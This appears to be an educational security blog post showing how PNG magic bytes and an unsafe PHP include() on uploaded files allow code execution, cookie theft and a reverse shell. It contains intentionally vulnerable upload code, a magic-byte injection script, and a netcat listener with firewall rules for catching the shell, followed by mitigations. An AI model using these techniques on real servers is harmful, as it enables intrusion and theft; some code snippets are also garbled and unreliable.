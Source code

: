 ## A commonly overlooked PHP programming flaw, Linux magic numbers, Python and NC. How much could go wrong?

## Understanding the Application
- Navigating to our test application brings us to an upload page:
```php
<html<
  <h1>Upload an image:</h1>
  <form action="upload.php" method="POST" enctype="multipart/form-data"">
    <input type="file" name="userfile" />
    <input type="submit" value="Submit" name="submit" />
  </form>
</html>
```
![webapp_1.png]({{site.baseurl}}/assets/img/webapp_1.png)

- After uploading a file, we get back a link that we can follow to either view the image and/or share it with others:
![webapp_2.png]({{site.baseurl}}/assets/img/webapp_2.png)

```php
<?php
  if( isset($_POST["submit"]) ) {
    $upload_dir = "./uploads";
    $upload_name = $upload_dir . $_FILES["userfile"]["name"];
    if( move_uploaded_file($_FILES["userfile"]["tmpname"], $upload_name) ) {
      echo("Success! Here's the image you uploaded: <br><br>");
      echo("View/Share link: <a href='http://localhost:5000/view.php?id='" . $_FILES["userfile"]["name"] . "'>Share!</a>);
    }
    else {
      echo("Upload error");
    }
  }
  else {
    echo("Please upload a file.");
  }
?>
```

- Viewing the image:
```php
<? php
  include("./uploads" . $_GET['id']);
  // storing the above in a variable, further processing ...
?>
```

Typically, developers would implement file type both on client side using JavaScript as well as on the backend either through just a string comparison of the `file extension` or through the `EXIF header checks` in the case of PHP applications. This ensures that users upload only images and not (for example) PHP code that could be interpreted.

The `exif_imagetype(string $filename)` function returns the type of an image based on the first few bytes present in the file. These bytes typically found at the start of the file are called `Magic File Numbers` and are responsible for defining actual file types to the operating system dealing with them. As you would expect, each file type/extension would have a unique set of identifying bytes.

This implies that only the first few bytes are considered in validating a file type. Bytes beyond the scope of the magic number length are responsible for other attributes of the file such as width/height for images or content and format specifiers in case of documents.

### What happens when we try injecting random non-file-specific data into the file? Can we still convince the OS that the file is valid?
Below is a snippet from a tool I wrote to embed content in media files.
```python
# also modifying height, width, bit-depth of image
# hardcoded to 256x256, 24-bit depth
# uses the args dict, eg: args = {'ext' = 'png', text = 'some text here'}
def inj2png(args):
	rfname = getRandomFileName()
	with open(rfname + '.' + args.ext, 'wb') as f:
		f.write(b'\x89\x50\x4e\x47\x0d\x0a\x1a\x0a\x00\x00\x00\x0d\x49\x48\x44\x52 \
            \x00\x00\x01\x00\x00\x00\x01\x00\x18\x45\x4e\x44\xae\x42\x60\x82' + \
            args.text.encode())
	print(rfname + '.' + args.ext, ' was written.')
```

Running the script, hexdump-ing the resulting image and running the OS provided `file` command shows:
![webapp_3.png]({{site.baseurl}}/assets/img/webapp_3.png)

Magic bytes at the start of the file could get us past OS file checks as well as exif checks in PHP. Let’s introduce a heavily flawed practice to understand the damage these concepts could do together.
`include(string $filename); // require() also problematic`

*The include and require statements take all the text/code/markup that exists in the specified file and copies it into the file that uses these statements.*

In case of our web application, once you upload an image, it is invoked server-side through an `include()` statement. The same effect could be caused by trying to request the file, causing a vulnerable web server to execute the code. We know that this call would evaluate any valid PHP in the included file.

## What happens if we embed PHP?
### Server-side execution
![webapp_4.png]({{site.baseurl}}/assets/img/webapp_4.png)

Once uploaded, we get the following:
![webapp_5.png]({{site.baseurl}}/assets/img/webapp_5.png)

On clicking the image, the server would `include()` the file we just uploaded, causing the payload to run, resulting in:
![webapp_6.png]({{site.baseurl}}/assets/img/webapp_6.png)

### Returning JS
![webapp_7.png]({{site.baseurl}}/assets/img/webapp_7.png)

On following the view/share link, we get a page that shows:
![webapp_8.png]({{site.baseurl}}/assets/img/webapp_8.png)

Unless cookies are marked http-only, we now have access to them via the JS browser API.

### Remote Login
On our remote machine:
`nc -lvp 4444`

Make sure firewall rules ALLOW on the port:
```
sudo iptables -I INPUT -p tcp --dport 4444 -j ACCEPT
sudo iptables -I OUTPUT -p tcp --dport 4444 -j ACCEPT
```

![webapp_9.png]({{site.baseurl}}/assets/img/webapp_9.png)

Once we upload the image and follow the view/share link, we see a connection log on our listener - we have a shell on the system.

If the web-server was running as root, we would now have full access to the system. 

## Preventing all of the above
- Validating files based on just their extensions via string comparisons is pointless.
- Validating files by content through EXIF functions or the underlying OS is a shade better and does provide some protection.
- Validating file size is an added layer of defence but could also be spoofed by modifying additional bytes following the magic number range.
- Going through the file and looking for suspect characters is a sure-fire way of preventing the above, but is not very practical to implement.
- Do not trust user input. Do not use include() or require() directly for any sort of processing on user uploaded files. Always sanitize input and check against a white-list.
- *Run the web server with a limited set of permissions.* The process should be limited to directories and files that it needs, with minimum required permissions.
- Harden your server. Remove the tools you do not need and do not allow outgoing connections unless absolutely required. Even so, implement a whitelist for the same. 
- WAF and HIDS should be configured to pick up on abnormal behaviour.

*Disclaimer: This article is purely for educational purposes. Do not scan or interefere with any systems unless you have explicit permission for testing by the owner. I am not responsible for any form of damage to any assets caused through misuse of this information.*
